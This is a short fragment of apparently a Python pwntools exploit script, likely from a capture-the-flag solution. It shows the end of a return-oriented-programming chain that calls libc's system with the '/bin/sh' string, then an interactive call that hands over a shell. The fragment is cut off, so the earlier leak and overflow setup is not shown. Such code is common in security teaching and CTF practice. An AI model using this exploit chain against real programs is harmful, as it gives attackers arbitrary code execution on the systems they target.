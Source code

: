 ```python
            pop_rdi_ret + 1,
            pop_rdi_ret,
            libc_base + next(libc.search(b"/bin/sh\x00")),
            libc_base + libc.sym.system,
        ]
    ),
)

ia()
```